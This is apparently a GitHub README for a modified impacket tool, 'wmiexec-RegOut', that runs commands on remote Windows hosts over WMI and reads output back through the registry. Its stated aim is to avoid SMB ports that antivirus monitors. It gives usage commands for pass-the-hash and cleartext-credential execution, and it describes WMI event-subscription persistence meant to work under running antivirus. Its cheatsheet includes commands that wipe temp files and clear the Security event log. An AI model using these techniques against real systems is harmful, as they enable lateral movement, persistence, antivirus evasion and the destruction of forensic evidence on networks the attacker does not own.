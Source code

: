 # wmiexec-RegOut

Modify version of impacket wmiexec.py,wmipersist.py. Got output(data,response) from registry, don't need SMB connection, but I'm in the bad code :(

# Table of content

* [Overview](#overview)
* [Requirements](#Requirements)
* [Usage](#Usage)
* [Cheatsheet](#Cheatsheet)
* [Todo](#todo)
* [References](#References)

## Specially Thanks to:

- ### [@rootclay](https://github.com/rootclay), wechat: _xiangshan

## Overview

In original wmiexec.py, it get response from smb connection (port 445,139). Unfortunately, some antivirus software are monitoring these ports as high risk.  
In this case, I drop smb connection function and use others method to execute command.

- wmiexec-reg-sch-UnderNT6-wip.py: Executed command by using win32-scheduledjob class. According to xiangshan, win32-scheduledjob class only works under windows NT6 (windows-server 2003).  
BTW, win32_scheduledjob has been disabled by default after windows NT6. Here is the way how to enable it.
```text
Key: HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Schedule\Configuration 
Name: EnableAt 
Type: REG_DWORD
Value: 1
```

- wmipersist-wip.py `(Highly recommend, !!!only works on impacket v0.9.24!!!)`: A Python version of [WMIHACKER](https://github.com/rootclay/WMIHACKER), which I picked the vbs template from it. Attacker can use it to do lateral movement safety under antivirus-software running.


- wmiexec-regOut.py: Just a simple Win32_Process.create method example .

## How it works?

- ### wmiexec-wip.py workflow:  
  Step 1:
   - WMIC authenticated remotly

  Step 2:
    - Use win32process class and call create method to execute command. Then, write down the result into C:\windows\temp directory named [uuid].txt

  Step 3:
    - Encode the file content to base64 strings (need to wait a few seconds)

  Step 4:
    - Add the converted base64 string into registry, and key name call [uuid]

  Step 5:
    - Get the base64 strings remotly and decode it locally.

- ### wmipersist-wip.py workflow:  
  Step 1:
   - Add custom vbs script into ActiveScriptEventConsumer class.

  Step 2:
   - Creating an Event Filter.

  Step 3:
   - Trigger FilterToConsumerBinding class to PWNED!

## Requirements

Generally, you just need to install official impacket.  
- [Portal](https://github.com/SecureAuthCorp/impacket)

## Usage
- ### wmiexec-wip.py usage:  
  With cleartext password
  ```bash
  python3 wmiexec-reg.py administrator:111qqq...@192.168.10.90 'whoami'
  ```
  ![image](https://user-images.githubusercontent.com/30458572/134797669-6d62e72f-a005-4001-aa47-09a9ffe86ae1.png)

  With NTLM hashes
  ```bash
  python3 wmiexec-reg.py -hashes e91d2eafde47de62c6c49a012b3a6af1:e91d2eafde47de62c6c49a012b3a6af1 administrator@192.168.10.90 'whoami'
  ```
  ![image](https://user-images.githubusercontent.com/30458572/137060383-7c13086c-0d4a-424d-a00a-561de836cacb.png)

- ### wmipersist-wip.py usage (Default is no output):  
  With cleartext password (without output)
  ```bash
  python3 wmipersist-wip.py administrator:111qqq...@192.168.10.20 'command'
  ```
  ![image](https://user-images.githubusercontent.com/30458572/137947814-2185d6b4-a20c-4bfc-804b-e5953bb016ac.png)

  With NTLM hashes
  ```bash
  python3 wmipersist-wip.py -hashes e91d2eafde47de62c6c49a012b3a6af1:e91d2eafde47de62c6c49a012b3a6af1 administrator@192.168.10.90 'whoami'
  ```
  ![image](https://user-images.githubusercontent.com/30458572/137948043-6d419057-5b62-45d4-a4df-e625b604dddd.png)

  With output
  ```bash
  python3 wmipersist-wip.py administrator:111qqq...@192.168.1.20 "whoami /priv" -with-output
  python3 wmipersist-wip.py administrator@192.168.1.20 "whoami /priv" -hashes e91d2eafde47de62c6c49a012b3a6af1:e91d2eafde47de62c6c49a012b3a6af1 -with-output
  ```
  ![image](https://user-images.githubusercontent.com/30458572/137948435-3f0fc14b-252f-411a-a681-9ba323edccb0.png)
  ![image](https://user-images.githubusercontent.com/30458572/137948639-c5f75993-bde2-47b9-8717-5e5309a36dd4.png)
  
  Under Huorong antivirus-software (Using WMIHACKER VBS template!!!)
  ![2ef86c8d934dc45498478aa9aedd91c](https://user-images.githubusercontent.com/30458572/137949219-b849be89-321e-4d1b-abf9-951509544679.png)

## Cheatsheet
  
  - Do not forget to clean up temp directory after run command with out put.  
  Command: `del /q /f /s C:\windows\temp\*`  
  ![image](https://user-images.githubusercontent.com/30458572/147390683-5556f7a0-17da-4308-8f16-e82783ab42b3.png)

  - Command include double quotes.  
  Make double quotes inside single quotes `wevtutil cl '"security"'`  
  ![image](https://user-images.githubusercontent.com/30458572/147390799-a3725a15-3c1c-4d63-850d-04e372ce04f7.png)
  
## Todo

- Optimize code (In bad code now.)
- Add more functions

## References
- https://github.com/SecureAuthCorp/impacket/blob/master/examples/wmiexec.py
- https://github.com/360-Linton-Lab/WMIHACKER
- https://github.com/FortyNorthSecurity/WMIOps
- https://docs.microsoft.com/en-us/windows/win32/cimwin32prov/operating-system-classes
